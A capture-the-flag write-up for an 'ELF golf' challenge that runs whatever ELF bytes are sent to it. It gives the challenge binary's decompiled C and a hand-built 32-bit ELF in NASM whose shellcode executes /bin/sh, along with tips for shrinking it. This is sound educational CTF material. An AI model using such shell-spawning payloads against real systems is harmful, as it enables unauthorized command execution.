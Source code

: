 
# Provided Files
- chal
- Dockerfile

### chal decompilation
```c noheader
int32_t main(int32_t argc, char** argv, char** envp)
    int32_t var_7c = argc
    void* fsbase
    int64_t rax = *(fsbase + 0x28)
    setbuf(fp: stdout, buf: nullptr)
    setbuf(fp: stderr, buf: nullptr)
    puts(str: "I'm sure you all enjoy doing she…")
    puts(str: "But have you ever tried ELF golf…")
    puts(str: "Have fun!")
    int32_t var_6c
    __builtin_strncpy(dest: var_6c, src: "\x7fELF", n: 4)
    int32_t rax_1 = memfd_create("golf", 0)
    if (rax_1 s< 0) {
        perror(s: "failed to execute fd = memfd_cre…")
        exit(status: 1)
        noreturn
    }
    void var_68
    int32_t rax_2 = read(fd: 0, buf: &var_68, nbytes: 0x4f)
    if (rax_2 s< 0) {
        perror(s: "failed to execute ok = read(0, b…")
        exit(status: 1)
        noreturn
    }
    printf(format: "read %d bytes from stdin\n", zx.q(rax_2))
    if (memcmp(&var_6c, &var_68, 4) != 0) {
        puts(str: "not an ELF file :/")
        exit(status: 1)
        noreturn
    }
    int32_t rax_8 = write(fd: rax_1, buf: &var_68, nbytes: sx.q(rax_2))
    if (rax_8 s< 0) {
        perror(s: "failed to execute ok = write(fd,…")
        exit(status: 1)
        noreturn
    }
    printf(format: "wrote %d bytes to file\n", zx.q(rax_8))
    if (fexecve(fd: rax_1, argv, envp) s< 0) {
        perror(s: "failed to execute fexecve(fd, ar…")
        exit(status: 1)
        noreturn
    }
    *(fsbase + 0x28)
    if (rax == *(fsbase + 0x28)) {
        return 0
    }
    __stack_chk_fail()
    noreturn
```

# Intended
This challenge uses the same setup as ELFcrafting-v1, except it only allows a maximum of 79 bytes instead of 32. The smallest possible 64 bit binary is 80 bytes, and it should be impossible to go lower unless `binfmt.c` changes and becomes more permissive. This time the remote actually verifies the ELF signature, so no more shebangs. However the remote does not verify that the binary is actually a 64 bit binary. 32 bit binaries can be as small as 45 bytes, and gives up ample room for our own shellcode to pop a shell.

## Solution
**taken from [https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html](https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html)**

```x86asm noheader
		BITS 32
  
		org	0x00010000
  
		db	0x7F, "ELF"
		dd	1
		dd	0
		dd	$$
		dw	2
		dw	3
		dd	_start
		dd	_start
		dd	4
_start:	mov	al,	11
        jmp	next
		nop
		nop
		nop
		db	0
		dw	0x34
		dw	0x20
		dd	1
next:	mov	ebx,	bin_sh
        int	0x80
bin_sh:	db	"/bin/sh", 0
  
filesize	equ	$ - $$
```

### sidenote:
You could golf this down further by replacing the `_start` code with `/bin/sh\x00` and relocating `_start`.

### sidenote:
Some people had problems with their solutions because they attempted to load their programs at an address lower than ubuntu's default vm.mmap_min_addr of `0x10000` which caused their programs to crash.

# Unintendeds
Zero unintendeds (-^-)
